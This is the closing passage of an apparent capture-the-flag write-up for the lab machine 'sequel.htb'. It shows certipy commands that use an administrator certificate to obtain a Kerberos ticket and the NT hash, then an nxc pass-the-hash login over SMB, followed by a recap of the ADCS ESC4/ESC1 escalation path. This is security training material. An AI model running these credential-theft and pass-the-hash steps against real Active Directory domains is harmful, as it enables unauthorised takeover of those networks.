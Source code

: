 ```bash
certipy auth -pfx 'administrator.pfx' -dc-ip $IP

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@sequel.htb'
[*]     SAN URL SID: 'S-1-5-21-548670397-972687484-3496335370-500'
[*]     Security Extension SID: 'S-1-5-21-548670397-972687484-3496335370-500'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:<REDACTED>
```

```bash
nxc smb $FQDN -u administrator -H <REDACTED>

SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\administrator:<REDACTED> (Pwn3d!)
```

Where we can see that we have full administrator privileges over the domain.

## Quick Recap

In this write-up, we have seen how to perform a privilege escalation attack using `ADCS` and `ESC4/ESC1` vulnerabilities. We started by enumerating the target machine, then we found credentials for an administrator of the `mssql` server, which we used to get a shell on the machine. On the host, we found credentials for a privileged user and we could perform an `ESC4`attack and gain full administrator privileges over the domain.
